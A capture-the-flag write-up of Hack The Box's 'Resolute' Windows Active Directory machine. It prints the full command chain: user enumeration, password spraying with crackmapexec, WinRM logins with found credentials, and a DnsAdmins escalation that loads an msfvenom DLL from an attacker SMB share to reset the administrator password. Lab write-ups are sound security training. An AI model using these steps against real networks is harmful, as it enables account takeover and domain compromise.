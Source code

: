 ```yaml
---
title: "Writeup: Resolute from Hack The Box"
author: Asier Núñez
pubDatetime: 2025-01-10T08:06:18.699Z
slug: resolute-writeup
featured: false
draft: false
tags:
  - Windows
  - Active Directory
  - Security
  - Ethical Hacking
  - LDAP
  - WinRM
  - DNS
description: "Writeup for the Resolute machine from Hack The Box, a Windows Active Directory."
---
```


# Enumeration

Domain: MEGABANK.LOCAL
CN: Resolute

After trying to enumerate with anonymous and guest users via SMB and not getting any results, we can try to use `windapsearch` to enumerate users.

```bash
./windapsearch-linux-amd64 -d resolute.megabank.local --dc 10.129.139.173 -m users --full
```

This will give us a list of users and their attributes. If we then look at the description of the users, we can see that one of them has a default password.

```bash
./windapsearch-linux-amd64 -d resolute.megabank.local --dc 10.129.139.173 -m users --full | grep Password
```

![Default-Password](@assets/images/writeups/htb/resolute/default-pass.png)

We can create a list of users with the following command:

```bash
./windapsearch-linux-amd64 -d resolute.megabank.local --dc 10.129.139.173 -m users | grep sAM | awk '{print $2}' > users
```

And run `crackmapexec` to spray the password over the users.

```bash
crackmapexec smb 10.129.139.173 -u users -p 'Welcome123!'
```

![Pass-Spray](@assets/images/writeups/htb/resolute/pass-spray.png)

```
melanie:Welcome123!
```

With these credentials, we can access the machine via WinRM.

```bash
evil-winrm -u melanie -p 'Welcome123!' -i 10.129.139.173
```

![melanie-winrm](@assets/images/writeups/htb/resolute/melanie-winrm.png)

Once we are in the machine, we can find a hidden directory at `C:\\PSTanscripts` what the PowerShell history.

```
ryan:Serv3r4Admin4cc123!
```

If we test these credentials, we can see that we can access the machine as `ryan`.

```bash
crackmapexec smb 10.129.139.173 -u users -p 'Serv3r4Admin4cc123!' --continue-on-success
```

![Ryan-Spray](@assets/images/writeups/htb/resolute/ryan-spray.png)

Now we can use `evil-winrm` to access the machine as `ryan`.

```bash
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.129.139.173
```

![ryan-winrm](@assets/images/writeups/htb/resolute/ryan-winrm.png)

# Privilege Escalation

As `ryan` is part of the `DnsAdmins` group, we can use `dnscmd` to escalate privileges.
We need to take into account the information obtained from the note found in ryan's desktop.

![Note](@assets/images/writeups/htb/resolute/note.png)

So with this information, we can create a DLL with `msfvenom` that changes the password of the `administrator` user.

```bash
msfvenom -p windows/x64/exec cmd='net user administrator Welcome123! /domain' -f dll > da.dll
```

```bash
impacket-smbserver -smb2support Share $(pwd)
```

After that, we can use `dnscmd` to set the server level plugin.

```cmd
cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.79\Share\da.dll
```

Now we can restart the DNS service.

```cmd
sc.exe stop dns
```

```cmd
sc.exe start dns
```

![pe](@assets/images/writeups/htb/resolute/pe.png)

```cmd
sudo impacket-psexec megabank.local/administrator@10.129.139.173
```

![Pwned](@assets/images/writeups/htb/resolute/pwned.png)
